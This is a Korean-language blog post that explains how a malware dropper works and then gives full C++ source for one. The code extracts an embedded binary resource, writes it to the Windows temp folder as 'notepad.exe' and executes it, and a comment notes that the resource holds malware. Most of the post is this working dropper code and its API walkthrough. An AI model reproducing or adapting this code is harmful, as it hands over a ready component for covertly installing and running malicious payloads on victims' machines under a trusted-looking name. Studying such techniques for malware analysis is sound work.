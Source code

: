 ```yaml
---
title: C++로 Dropper 만들기
categories: 
 - Malware Analysis
tags: 
 - Dropper
---
```


## Dropper

Dropper는 정상 프로그램에 숨어있다가 정상 프로그램이 실행되면서 내장되어 있던 악성코드가 꺼내지고 정상 프로그램이 악성코드를 실행 시킨다.

### 주요 API

|API|설명|
|:---:|:---|
|GetTempPath|임시 파일로 지정된 디렉토리의 경로를 검색|
|FindResource|지정된 모듈에서 지정된 유형 및 이름을 사용하여 자원의 위치를 찾음|
|SizeofResource|자원의 크기(Byte)를 검색|
|LoadResource|메모리의 지정된 리소스의 핸들을 검색|
|LockResource|메모리에 있는 지정된 리소스에 대한 포인터 검색|
|CreateFile|파일이나 I/O장치를 만들거나 연다|
|SetFilePointer|지정한 파일의 파일 포인터를 이동시킨다|
|WriteFile|파일이나 I/O장치에 데이터를 기록|
|CreateProcess|새 프로세스와 기본 스레드를 실행|
|MessageBox|메시지가 포함된 대화 상자를 표시|

### 실행 흐름

1. GetTempPath 함수로 임시 디렉토리의 경로를 가져옴
1. FindResource 함수로 리소스 영역에 있는 파일을 찾는다
1. SizeofResource 파일의 크기를 가져온다
1. LoadResource 파일을 로드, 핸들을 가져온다
1. LockResource 메모리에 상주에 있는 파일의 포인터를 가져온다
1. CreateFile 파일을 하나 연다
1. SetFilePointer , WriteFile 함수로 EXE파일을 CreateFile로 만든 파일에다 데이터를 쓴다
1. CreateProcess 함수로 CreateFile에서 만든 파일을 실행시킨다

### 소스 코드

```c++
# 리소스에는 악성코드가 있지만 이 코드는 notepad를 실행한다.
#include "windows.h"
#include "resource.h"

#define APP_PATH MAX_PATH+1

HINSTANCE	hInst	 = NULL;

BOOL CoverDrop();
BOOL MalwareDrop();

int APIENTRY WinMain(HINSTANCE hInstance,
                     HINSTANCE hPrevInstance,
                     LPSTR     lpCmdLine,
                     int       nCmdShow)
{
    
	hInst = hInstance;
	
	CoverDrop();

	return 0;
}

BOOL CoverDrop()
{
	WCHAR szAppFullPath[APP_PATH];
	WCHAR szTempPath[APP_PATH];
	WCHAR szSystemPath[APP_PATH];

	DWORD	dwResSize, dwByteWrite;
	HRSRC	hResource	= 0;
	HGLOBAL	hResData	= 0;
	LPVOID	lpData		= NULL;
	HANDLE	hFile		= NULL;

	// PATH ¼³Á¤
	GetTempPath(APP_PATH, szTempPath);
	//GetWindowsDirectory(szSystemPath, APP_PATH);
	wsprintf(szAppFullPath,L"%s\\notepad.exe",szTempPath);

	hResource = FindResource(hInst, MAKEINTRESOURCE(IDR_BIN1), L"BIN"); // IDR_BIN1은 리소스에 있는 파일이다. 
	dwResSize = SizeofResource(hInst, hResource);
	hResData = LoadResource(hInst, hResource);

	if (hResData != NULL && dwResSize != 0)
	{
		lpData = NULL;
		lpData = LockResource(hResData);
		hFile = CreateFile(szAppFullPath, // 파일을 생성
			GENERIC_WRITE,
			FILE_SHARE_WRITE,
			NULL,
			CREATE_ALWAYS,
			FILE_ATTRIBUTE_NORMAL,
			NULL);

		if (NULL != hFile && INVALID_HANDLE_VALUE != hFile)
		{
			SetFilePointer(hFile, 0, 0, FILE_BEGIN); //리소스 데이터를 만든 파일에 쓴다

			WriteFile(hFile,
				(LPBYTE)lpData,
				dwResSize,
				&dwByteWrite,
				NULL);

			CloseHandle(hFile);

			STARTUPINFO si={0, };
			PROCESS_INFORMATION pi;
			si.cb = sizeof(STARTUPINFO);
			si.dwFlags = 0;
			CreateProcess(NULL, szAppFullPath, NULL, NULL, NULL, NULL, NULL, NULL, &si, &pi); //리소스를 저장한 파일을 실행
		}
		else
		{
			MessageBox(NULL, L"Install Fail hFile", L"Warning", MB_OK | MB_ICONSTOP);
		}
	}
	else
	{
		MessageBox(NULL, L"Install Fail hResData", L"Warning", MB_OK | MB_ICONSTOP);
	}
	return TRUE;
}
```





